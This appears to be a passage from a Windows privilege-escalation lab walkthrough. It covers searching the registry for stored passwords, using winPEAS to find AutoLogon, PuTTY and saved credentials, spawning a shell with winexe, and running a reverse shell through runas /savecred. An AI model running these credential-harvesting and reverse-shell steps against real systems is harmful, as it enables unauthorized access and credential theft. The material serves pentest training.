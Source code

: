 ## Searching the Registry for Passwords

The following commands will search the registry for keys and values that contain “password”
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
This usually generates a lot of results, so often it is more fruitful to look in known locations.

### Privilege Escalation
1. Use winPEAS to check common password locations:
```
.\winPEASany.exe quiet filesinfo userinfo
```
2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).
1. We can verify these manually:
```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
4. On Kali, we can use the winexe command to spawn a shell using these credentials:
```
winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

## Saved Creds
Windows has a runas command which allows users to run commands with the privileges of other users.
This usually requires the knowledge of the other user’s password.
However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

### Privilege Escalation
1. Use winPEAS to check for saved credentials:
```
.\winPEASany.exe quiet cmd windowscreds
```
2. It appears that saved credentials for the admin user exist.
3. We can verify this manually using the following command:
```
cmdkey /list
```
4. If the saved credentials aren’t present, run the following script to refresh the credential:
```
C:\PrivEsc\savecred.bat
```
5. We can use the saved credential to run any command as the admin
user. Start a listener on Kali and run the reverse shell executable:
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

## Configuration Files
Some administrators will leave configurations files on the system with passwords in them.
The Unattend.xml file is an example of this.
It allows for the largely automated setup of Windows systems.
